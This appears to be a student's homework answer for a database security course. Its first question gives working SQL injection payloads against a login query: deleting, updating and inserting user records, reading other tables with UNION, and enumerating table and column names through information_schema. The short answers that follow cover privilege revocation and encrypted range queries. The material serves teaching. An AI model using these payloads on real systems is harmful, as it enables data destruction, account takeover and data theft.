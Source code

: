 # CS253 HW3

## Question1
`email = ?`

`passowrd = ?`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx');
```
**Deleting data**:

Assume we want to delete the data whose email='noob', then we let

`email = xxx@xxx.xxx`

`password = xxx'); DELETE FROM users WHERE email='noob'; #`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx'); DELETE FROM users WHERE email='noob'; #');
``` 
**Updating data**: 

Assume we want to update the password of user whose email='noob' to '114514', then we let

`email = xxx@xxx.xxx`

`password = xxx'); UPDATE users SET password=md5('114514') WHERE email='email';#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx'); UPDATE users SET password=md5('114514') WHERE email='email';#');
``` 
**Inserting data**: 

Assume we want to insert the data whose email='noob'&password='114514', then we let

`email = xxx@xxx.xxx`

`password = xxx'); INSERT INTO users (email, password) values ('noob',md5('114514')); #`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx'); INSERT INTO users (email, password) values ('noob',md5('114514')); #');
``` 

**Query another table**:

Assume the name of another table is `department` and we want to get all the data of it, then we let

`email = xxx@xxx.xxx`

`password = xxx') OR 1=1 UNION select * FROM department;#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx') UNION select * FROM department;#');
``` 

**Unknown table name**:

Firstly, we extract the table name from `information_schema` ,which is a mysql built-in database. We let

`email = xxx@xxx.xxx`

`password = xxx') UNION SELECT 1,2,table_name FROM information_schema.tables WHERE table_schema=database();#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx') UNION SELECT 1,2,table_name FROM information_schema.tables WHERE table_schema=database();#');
```
Secondly, we extract the column name of target table `department`. We let

`email = xxx@xxx.xxx`

`password = xxx') UNION SELECT 1,2,column_name FROM information_schema.columns WHERE table_name="department";#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx') UNION SELECT 1,2,column_name FROM information_schema.columns WHERE table_name="department";#');
```
Now we can repeat the operation in **Question: Query another table** and extract all the data we want.

## Question2
`Delete` must be revoked.

## Question3
`75k` belongs to `70-80k`, which is mapped to `4`. Thus we decrypt all the data in `4` and filter out data $\leq$ `75k`. Finally we put these data and data in `5` and `6` together.
